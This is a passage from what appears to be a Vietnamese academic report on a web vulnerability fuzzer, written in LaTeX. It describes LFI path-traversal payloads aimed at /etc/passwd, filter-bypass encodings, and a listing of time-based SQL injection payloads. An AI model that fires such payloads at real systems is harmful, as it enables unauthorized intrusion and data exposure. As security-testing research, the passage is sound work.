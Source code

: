 \begin{itemize}
  \item Đối với các payload \acrshort{lfi}, chúng tôi thu thập 8 payload mẫu với số lượng các chuỗi ``../'' tăng dần, nhằm tăng độ sâu của đường dẫn để tiếp cận được tập tin \texttt{/etc/passwd} của máy chủ. Từ 8 payload này, chúng tôi áp dụng các kĩ thuật làm rối riêng biệt để sinh ra các payload khác. Các kĩ thuật này bao gồm encode các chuỗi kí tự ``../'', ``..\textbackslash'' và ``..\textbackslash /'' theo các tập kí tự (charset) ít phổ biến như ``\texttt{..\%c0\%af}'', ``\texttt{..\%252f}'', ``\texttt{\%\%32\%65}'', ``\texttt{..\%\%32\%66}'',  ``\texttt{..\%25c1\%259c}'',... để vượt qua một số kĩ thuật lọc và làm sạch dữ liệu ở phía server-side của máy chủ ứng dụng web mục tiêu.
  \item Đối với các payload time-based \acrshort{sqli}, chúng tôi sử dụng các payload chứa hai loại hàm chính để hoãn thời gian thực hiện request. Cụ thể là hàm \texttt{sleep} (đối với MySQL, tương tự là \texttt{pg\_sleep} đối với PostgreSQL và \texttt{waitfor delay}, \texttt{waitfor time} đối với Microsoft SQL Server) và hàm \\\texttt{BENCHMARK(10000000,MD5('Y4T0G4M11337'))} để kéo dài thời gian thực hiện request đối với các ứng dụng web mắc lỗi này. Bên cạnh đó, với mỗi payload gốc, chúng tôi áp dụng thêm nhiều cách thức đóng ngoặc, chú thích để tránh gặp lỗi cú pháp khi thực thi đoạn mã SQL ở phía máy chủ, ví dụ một số payload trong Đoạn mã \ref{lst:example-sqli-payloads} sau.
\end{itemize}
\begin{lstlisting}[language={}, label={lst:example-sqli-payloads}, caption={Ví dụ một số payload kiểm thử lỗ hổng time-based \acrshort{sqli}},captionpos=b,basicstyle=\ttfamily]
') OR 1337 LIKE BENCHMARK(10000,MD5('Y4T0G4M11337'))--+-
OR ELT(1337 LIKE 1337,SLEEP(10))--+-
' ,(SELECT (CASE WHEN (1337 LIKE 1337) THEN (SELECT 1337 FROM PG_SLEEP(10)) ELSE 1/(SELECT 0) END)) AND '
' ,(SELECT (CASE WHEN (1337 LIKE 1337) THEN SLEEP(10) ELSE 1337 END))--+-
' RLIKE SLEEP(10)--+-
' (SELECT * FROM (SELECT(SLEEP(10)))Y4T0G4M11337)--+-
' WAITFOR DELAY '0:0:10'--+-
1)) or pg_sleep(*index*)--
\end{lstlisting}
Cụ thể cấu hình được áp dụng trong ứng dụng và biểu thức chính quy áp dụng trong trường hợp phát hiện lỗi \acrshort{lfi} được thể hiện ở Đoạn mã \ref{lst:default-fuzz-config} dưới đây.

